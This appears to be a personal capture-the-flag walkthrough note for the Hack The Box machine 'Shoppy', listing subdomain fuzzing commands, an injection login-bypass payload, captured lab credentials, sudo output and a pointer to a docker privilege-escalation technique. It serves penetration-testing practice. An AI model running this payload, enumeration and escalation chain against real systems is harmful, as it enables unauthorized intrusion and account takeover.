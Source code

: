# 10.10.11.180

# curl head get X
curl -I --head http://shoppy.htb/login?error=../../1

# faille possible
OSVDB-3092: /login/: This might be interesting...

# dns enum
ffuf -u http://shoppy.htb -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host : FUZZ.shoppy.htb" | grep 200

# fs 169 response size
ffuf -u http://shoppy.htb -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host : FUZZ.shoppy.htb" -fs 169

# /etc/host
mattermost.shoppy.htb

http://mattermost.shoppy.htb/login

#sql injection
admin'||'1==1

# connection login http://mattermost.shoppy.htb/login
username : josh
pasword : remembermethisway

# connection ssh
username : jaeger
password : Sh0ppyBest@pp!

# app session
secret : DJ7aAdnkCZs9DZWx[sudo] password for jaeger: 

# sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager


# password
Sample

# commande password-manager
sudo -u deploy /home/deploy/password-manager

# result 
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!

# connection ssh deploy id

# docker sudo
https://gtfobins.github.io/gtfobins/docker/